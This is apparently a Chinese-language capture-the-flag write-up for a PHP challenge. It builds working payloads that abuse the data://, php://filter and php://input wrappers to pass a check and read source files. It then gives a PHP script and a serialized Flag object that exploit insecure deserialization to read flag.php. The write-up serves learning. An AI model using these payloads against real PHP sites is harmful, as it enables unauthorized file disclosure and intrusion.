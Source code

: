 ![img](./assets/wps202.jpg)

分析源码

get传参text，file，password

首先

![img](./assets/wps203.jpg) 

判断text内容是不是welcome to the zjctf

可以利用伪协议

构造payload：

?text=data://text/plain,welcome to the zjctf

 

存在flag文本过滤

include包含文件useless.php

利用php://filter读取

构造payload：

 

file=php://filter/read=convert.base64-encode/resource=useless.php

 

获取到useless.php源码

![img](./assets/wps204.jpg) 

 

![img](./assets/wps205.jpg) 

 

分析源码

_tostring

![img](./assets/wps206.jpg) 

 

useless.php的内容，其中定义了一个Flag类，包含$file属性和__toString方法。当对象被当作字符串处理时（比如echo一个对象），__toString方法会被调用。方法中会读取$this->file的内容，所以如果能够控制$file属性为flag.php，就能触发读取flag.php的操作。这里的关键是利用反序列化来构造一个Flag对象，设置其$file属性为flag.php，然后通过反序列化触发__toString方法。

 

 

 

 

![img](./assets/wps207.jpg) 

提示读取file：flag.php

构造payload：

 

<?php 

class Flag{  //flag.php  

  public $file;  

  public function __tostring(){  

​    if(isset($this->file)){  

​      echo file_get_contents($this->file); 

​      echo "<br>";

​    return ("U R SO CLOSE !///COME ON PLZ");

​    }  

  }  

}  

$a=new Flag();

$a->file= "flag.php";

$b=serialize($a);

print("$b");

?> 

 

运行得到

![img](./assets/wps208.jpg) 

 

Password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

 

 

 

最终payload：

?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

 

![img](./assets/wps209.jpg) 

查看源码

得到flag

![img](./assets/wps210.jpg) 

 

 

 

 

 

其中text内容

用php://input写入也行

GET：

php://input

POST:

welcome to the zjctf

 
